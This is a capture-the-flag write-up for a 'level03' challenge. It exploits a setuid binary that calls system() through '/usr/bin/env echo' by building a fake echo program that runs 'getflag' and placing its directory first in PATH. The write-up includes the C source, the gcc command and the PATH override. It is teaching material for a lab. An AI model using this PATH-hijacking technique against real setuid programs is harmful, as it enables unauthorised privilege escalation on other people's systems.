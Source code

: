 ### level03

**Objective:**  
Exploit the `level03` binary to execute commands as `flag03`.

**Analysis:** 

When entering this level we find a 32-bit executable named level03 owned by the user `flag03` and the setuid bit is set `-rws`, which means we can execute it with the same privilage as the user `flag03`.

![information about the file using ls -la command](/level03/resources/images/permissions.png)

![type of the file using file command](/level03/resources/images/type.png)


Running the program a message gets printed "Exploit me". Challenge accepted.

![output of the binary when executed](/level03/resources/images/output.png)

Let's see the function calls made by this program using `ltrace` 

![output of function calls of level03 binary with ltrace](/level03/resources/images/ltrace.png)

We can notice that system function call has "/usr/bin/env echo Exploit me" in its parameter, 
`/usr/bin/env` causes the system to search in the directories listed in the `PATH` environment variable instead of using the echo builtin.
This creates a vulnerability if we can create our own custom echo and add its path to the beginning of `PATH` variable we can make the executable execute the `getflag` command

**Cracking process**

Let's start by creating our custom echo.c and create our fake echo binary :

```c
#include <stdlib.h>

int main() {

  system("getflag"); 

  return 0;
}
````

```bash
gcc -o echo echo.c
```

Then we will add the path of our echo to `PATH`

```bash
PATH=/path_to_our_echo:$PATH
``` 

now when we execute `level03` and get the password for the next level

![output of the binary exploited showing the password](/level03/resources/images/password.png)